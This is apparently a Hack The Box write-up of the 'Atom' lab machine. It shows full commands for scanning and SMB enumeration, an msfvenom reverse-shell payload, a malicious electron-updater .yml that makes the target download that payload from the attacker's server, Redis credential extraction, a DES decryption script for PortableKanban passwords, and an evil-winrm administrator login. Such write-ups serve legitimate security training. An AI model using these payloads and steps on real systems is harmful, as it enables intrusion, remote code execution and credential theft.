# [Atom](https://app.hackthebox.com/machines/atom)

```bash
nmap -p- --min-rate 10000  10.10.10.237 -Pn  
```



After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,135,139,445,5985,6379 10.10.10.237 -Pn 
```



Let's enumerate SMB shares via `smbmap` tool.

```bash
smbmap -H 10.10.10.237 -u guest
```




I see that 'Software_Updates' share can be written by me.

I connect to this share via `smbclient` command.

```bash
smbclient -N //10.10.10.237/Software_Updates
```

From this share, I got pdf file.




While reading this file, I just search publicly known exploits.



I found this [article](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) to hack.

Let's start.

1.First we create our malicious executable which gives us reverse shell.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1337 -f exe > "r'shell.exe"
```



2.Then, get SHA sum of this executable.

```bash
shasum -a 512 r\'shell.exe | cut -d " " -f1 | xxd -r -p | base64
```




3.Let's create malicious .yml file.
```yml
version: 1.2.3
path: http://10.10.14.3:8080/r'shell.exe
sha512: EqlhcUSg5hwEqa3KoLnT/A5RktA3fLqmynHYHYKbiPB0qUYAkIbTOKTtfxAYgBXgMncjTDdQdaNrIHWrwCVFTQ==             
```



4.Now we need to open HTTP server to serve our malicious executable file.
```bash
python3 -m http.server --bind 10.10.14.3 8080
```



5.We need to upload our malicous .yml file into 'Software_Updates' share for 'client1' directory.




I got reverse shell from port (1337).



user.txt



Now, I enumerate windows machine and I found a file called '**redis.windows-service.conf**' on directory called 'C:\Program Files\Redis'.

This file has sensitive credential means password of Redis database.



password: kidvscat_yes_kidvscat


Let's login into Redis CLI.

```bash
redis-cli -h 10.10.10.237 -a kidvscat_yes_kidvscat
```

Then add below commands into redis cli.
```bash
keys *
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```



Encrypted Password is 'Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'.


I found 'Portable Kanban' on 'Downloads' directory of 'jason' user.




Let's search publicly known exploit, and I found this.



But I changed a python script from this situation to another one for just password.

```python
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b'7ly6UznJ')
    print('Decrypted Password : ' + key.decrypt(hash,initial=b'XuVUm5fR',padding=True).decode('utf-8'))
except:
    print('Wrong Hash')

```


I executed this script and it worked.




Decrypted password is 'kidvscat_admin_@123'


Let's try to use this password for '**administrator**' user.

administrator: kidvscat_admin_@123


Now, I login into machine via above credetianls by using `evil-winrm` tool.

```bash
evil-winrm -u administrator -p 'kidvscat_admin_@123' -i 10.10.10.237
```

root.txt

